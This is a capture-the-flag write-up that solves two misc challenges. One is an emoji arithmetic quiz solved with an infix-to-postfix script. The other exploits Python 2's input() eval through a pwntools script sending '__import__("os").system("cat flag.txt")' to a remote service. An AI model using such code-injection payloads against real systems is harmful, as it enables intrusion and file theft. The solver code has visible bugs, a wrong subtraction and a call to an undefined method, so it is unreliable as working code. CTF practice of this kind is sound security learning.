


# Misc Challenges

### Index
___
1. [Aliencamp](#aliencamp)
2. [Input as a service](#input-as-a-service)

### Aliencamp
> The Ministry of Galactic Defense now accepts human applicants for their specialised warrior unit, in exchange for their debt to be erased. We do not want to subject our people to this training and to be used as pawns in their little games. We need you to answer 500 of their questions to pass their test and take them down from the inside.

Upon connecting to `host:port` given we get the following:

Hence we need to evaluate the expressions as per the value of each emoji. As operator precedence matters, I developed a script to convert the given infix expression to postfix and then evaluate it.
- infix_to_postfix.py
```python
#!/usr/bin/python3
class Conversion:
    def __init__(self, capacity, emoji_map):
        self.top = -1
        self.capacity = capacity
        self.emoji_map = emoji_map
        self.array = []
        self.output = []
        self.precedence = {'+':1, '-':1, '*':2}

    def isEmpty(self):
        return True if self.top == -1 else False

    def peek(self):
        return self.array[-1]

    def pop(self):
        if not self.isEmpty():
            self.top -= 1
            return self.array.pop()
        else:
            return "$"

    def push(self, op):
        self.top += 1
        self.array.append(op)

    def isOperand(self, ch):
        operator = "+-*/"
        if ch not in operator:
            return True
        return False

    def notGreater(self, i):
        try:
            a = self.precedence[i]
            b = self.precedence[self.peek()]
            return True if a <= b else False
        except KeyError:
            return False

    def infixToPostfix(self, exp):
        for i in exp:
            if self.isOperand(i):
                self.output.append(str(self.emoji_map[i]))
            elif i  == '(':
                self.push(i)
            elif i == ')':
                while ((not self.isEmpty()) and self.peek() != '('):
                    a = self.pop()
                    self.output.append(a)
                if (not self.isEmpty() and self.peek() != '('):
                    return -1
                else:
                    self.pop()
            else:
                while(not self.isEmpty() and self.notGreater(i)):
                    self.output.append(self.pop())
                self.push(i)
        while not self.isEmpty():
            self.output.append(self.pop())

        return self.output

class Evalpostfix:
    def __init__(self):
        self.stack = []
        self.top = -1

    def pop(self):
        if self.top ==-1:
            return
        else:
            self.top -= 1
            return self.stack.pop()

    def push(self, i):
        self.top+= 1
        self.stack.append(i)

    def evaluate(self, expr):
        for i in expr:
            try:
                self.push(int(i))
            except ValueError:
                val1 = self.pop()
                val2 = self.pop()
                result = 0
                if i == '+':
                    result = val2 + val1
                elif i == '-':
                    result = val2 - val2
                elif i == '*':
                    result = val2 * val1
                self.push(result)
        return int(self.pop())
``` 
- get_flag.py
```python
#!/usr/bin/python3

import sys
from pwn import *
from infix_to_postfix import *

def getresponse(remote_conn, repeat=False, byte=1024, sec=0.5):
    if repeat == False:
        res = remote_conn.recv(byte).decode('utf-8')
    else:
        res = remote_conn.recvrepeat(sec).decode('utf-8')
    print(res)
    return res

def sendrequest(remote_conn, req):
    req += '\n'
    print(req)
    remote_conn.send(req)

def make_emoji_map(r):
    sendrequest(r, '1')
    res = getresponse(r, True)
    hint = res.split('\n')[2].replace('->', '').split()

    emoji_map = {}
    for i, val in enumerate(hint):
        if i % 2 == 0:
            emoji_map[hint[i]] = int(hint[i+1])

    return emoji_map

def get_expression(r, question):
    res = getresponse(r)
    expression = res.split(question)[1].strip().split('=')[0].replace(' ', '')
    return expression

if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("[.] Usage: ./getflag.py <host> <port>")
        sys.exit(1)

    HOST, PORT = sys.argv[1], int(sys.argv[2])
    r = remote(HOST, PORT)
    res = getresponse(r)
    emoji_map = make_emoji_map(r)

    """ Begin test """
    sendrequest(r, '2')

    for i in range(1, 501):
        question = "Question {}:".format(i)
        infix = get_expression(r, question)

        conv_obj = Conversion(len(infix), emoji_map)
        postfix = conv_obj.infixToPostfix(infix)

        eval_obj = Evalpostfix()
        result = eval_obj.centralfunc(postfix)

        sendrequest(r, str(result))

    res = getresponse(r)
```
After evaluating 500 expressions we successfully get the flag.

```Flag = CHTB{3v3n_4l13n5_u53_3m0j15_t0_c0mmun1c4t3}```

### Input as a service
> The Ministry of Galactic Defense now accepts human applicants for their specialised warrior unit, in exchange for their debt to be erased. We do not want to subject our people to this training and to be used as pawns in their little games. We need you to answer 500 of their questions to pass their test and take them down from the inside.

Upon connecting to `host:port` given we seem to be in a python2 shell interpreter:
```python
2.7.18 (default, Apr 20 2020, 20:30:41)
[GCC 9.3.0]
Do you sound like an alien?
>>>

abcd
Traceback (most recent call last):
  File "input_as_a_service.py", line 16, in <module>
    main()
  File "input_as_a_service.py", line 12, in main
    text = input(' ')
  File "<string>", line 1, in <module>
NameError: name 'abcd' is not defined
```
The vulnerability lies in the `input()` function in python2 which is equivalent to `eval(raw_input())`, thus evaluating the user input as if it were python code. Hence we can invoke the `system()` function from `os` library to list contents of the folder to locate the flag and then read it.
```python
#!/usr/bin/python3

import sys
from pwn import *

def getresponse(remote_conn, repeat=False, byte=1024, sec=0.5):
    if repeat == False:
        res = remote_conn.recv(byte).decode('utf-8')
    else:
        res = remote_conn.recvrepeat(sec).decode('utf-8')
    print(res)
    return res

def sendrequest(remote_conn, req):
    req += '\n'
    print(req)
    remote_conn.send(req)

def get_expression(r, question):
    res = getresponse(r)
    expression = res.split(question)[1].strip().split('=')[0].replace(' ', '')
    return expression

if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("[.] Usage: ./getflag.py <host> <port>")
        sys.exit(1)

    HOST, PORT = sys.argv[1], int(sys.argv[2])
    r = remote(HOST, PORT)
    res = getresponse(r)
    sendrequest(r, '__import__("os").system("ls")')
    res = getresponse(r)
    sendrequest(r, '__import__("os").system("cat flag.txt")')
    res = getresponse(r)
```
Executing the script we get the flag.
```python
2.7.18 (default, Apr 20 2020, 20:30:41)
[GCC 9.3.0]
Do you sound like an alien?
>>>

__import__("os").system("ls")
__import__("os").system("cat flag.txt")

CHTB{4li3n5_us3_pyth0n2.X?!}
flag.txt
input_as_a_service.py
0
0
```
```Flag = CHTB{4li3n5_us3_pyth0n2.X?!}```